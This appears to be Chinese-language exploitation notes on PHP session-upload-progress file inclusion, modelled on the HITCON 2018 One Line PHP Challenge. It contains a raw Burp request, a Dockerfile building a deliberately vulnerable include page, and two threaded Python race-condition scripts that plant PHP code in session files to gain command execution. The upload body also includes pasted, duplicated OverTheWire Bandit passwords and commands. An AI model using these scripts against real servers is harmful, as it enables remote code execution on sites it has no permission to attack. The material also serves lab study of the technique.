

# 包含Session文件

## 包含Session文件

### 参考文章

- https://www.kingkk.com/2018/10/hitcon2018-One-Line-PHP-Challenge/#%E5%89%8D%E8%A8%80
- https://php.net/manual/zh/session.upload-progress.php

### 利用条件

- 文件可上传
- 文件名可控
- 文件可包含

### 测试

复现的repeater包(最好把报文增长一点，感觉burpsuite爆破没有python脚本爆破来的快)：  
```http
POST /?orange=php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/var/lib/php/sessions/sess_j7ur8 HTTP/1.1
Host: 192.168.1.112
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------191691572411478
Content-Length: 1949
Connection: close
Referer: http://192.168.1.112/
Cookie: PHPSESSID=j7ur8
Upgrade-Insecure-Requests: 1

-----------------------------191691572411478
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

ZZVVVSM0wyTkhhSGRKUjFacVlVYzRaMWxIYkd0WlJITXZVRzVvZFdFeFZuUlZSVTVw
-----------------------------191691572411478
Content-Disposition: form-data; name="file1"; filename="game.txt"
Content-Type: text/plain

bandit2:CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9    cat ./-
bandit3:UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK    cat ./spaces\ in\ this\ filename
bandit4:pIwrPrtPN36QITSp3EQaw936yaFoFgAB    cat inhere/.hidden
bandit5:koReBOKuIDDepwhWk7jZC0RTdopnAYKh    cat ./-file07
bandit6:DXjZPULLxYr17uwoI01bNLQbtFemEgo7    find . -type f -readable ! -executable -size 1033c
./maybehere07/.file2
bandit7:HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs    find / -type f -group bandit6 -user bandit7 -size 33c
bandit8:cvX2JJa4CFALtqS87jk27qwqGhBM9plV    cat data.txt | grep "millionth"
bandit9:UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR    sort data.txt | uniq -u
bandit10:truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk   strings data.txt |grep "======"
bandit11:IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR   cat data.txt|base64 -d
bandit12:5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu   cat data.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'bandit2:CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9   cat ./-
bandit3:UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK    cat ./spaces\ in\ this\ filename
bandit4:pIwrPrtPN36QITSp3EQaw936yaFoFgAB    cat inhere/.hidden
bandit5:koReBOKuIDDepwhWk7jZC0RTdopnAYKh    cat ./-file07
bandit6:DXjZPULLxYr17uwoI01bNLQbtFemEgo7    find . -type f -readable ! -executable -size 1033c
./maybehere07/.file2
bandit7:HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs    find / -type f -group bandit6 -user bandit7 -size 33c
bandit8:cvX2JJa4CFALtqS87jk27qwqGhBM9plV    cat data.txt | grep "millionth"
bandit9:UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR    sort data.txt | uniq -u
bandit10:truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk   strings data.txt |grep "======"
bandit11:IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR   cat data.txt|base64 -d
bandit12:5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu   cat data.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
bandit13:8ZjyCRiBWFYkneahHwxCv3wb2a1ORpYL   
bandit14:4wcYUJFw0k0XLShlDzztnTBHiqxU3b3    ssh -i sshkey.private bandit14@127.0.0.1
-----------------------------191691572411478
Content-Disposition: form-data; name="file2"; filename=""
Content-Type: application/octet-stream


-----------------------------191691572411478--
```

## 案例一

### 测试

Dockerfile：

```bash
FROM ubuntu:18.04

RUN sed -i s/archive.ubuntu.com/mirrors.aliyun.com/g /etc/apt/sources.list &&\
    sed -i s/security.ubuntu.com/mirrors.aliyun.com/g /etc/apt/sources.list

RUN apt-get update
RUN apt-get -y install tzdata
RUN apt-get -y install php
RUN apt-get -y install apache2
RUN apt-get -y install libapache2-mod-php

RUN rm /var/www/html/index.html


RUN echo 'PD9waHAKICAoJF89QCRfR0VUWydvcmFuZ2UnXSkgJiYgQHN1YnN0cihmaWxlKCRfKVswXSwwLDYpID09PSAnQDw/cGhwJyA/IGluY2x1ZGUoJF8pIDogaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOw==' | base64 -d > /var/www/html/index.php
RUN chmod -R 755 /var/www/html

CMD service apache2 start & tail -F /var/log/apache2/access.log
```

base64加密的代码为：  
```php
<?php
($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__);

```

#### payload

exp脚本为：

```python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool

HOST = 'http://192.168.1.112:81/'
sess_name = 'iamorange'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = '@<?php echo `id`;?>'
"""while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        print (xxx)
        break"""
xxx='VVVSM0wyTkhhSGRKUjFacVlVYzRaMWxIYkd0WlJITXZVRzVvZFdFeFZuUlZSVTVw'

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + xxx + 'Z'
    }
    while 1:
        fp = open('game.txt', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        #print(r.content)
        fp.close()
 
def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
    while 1:
        url = '%s?orange=%s' % (HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        if c and b'orange' not in c:
            print(r.content)
 
if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2
 
pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```


## 案例二

### 测试

```php
<?php
include($_GET['file'])
```

#### payload

则exp脚本为:

```python
import requests
import time
import threading
 
 
host = 'http://192.168.1.112:81/1.php'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'
 
def creatSession():
    while True:
        files = {
        "upload" : ("tmp.jpg", open("game.txt", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo md5('1');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host,files = files,headers = headers,data=data)
 
fileName = "/var/lib/php/sessions/sess_"+PHPSESSID
 
if __name__ == '__main__':
 
    url = "{}/index.php?file={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if b"c4ca4238a0b923820dcc509a6f75849b" in res.content:
            print("[*] Get shell success.")
            print(res.content)
            break
        else:
            print("[-] retry.")
```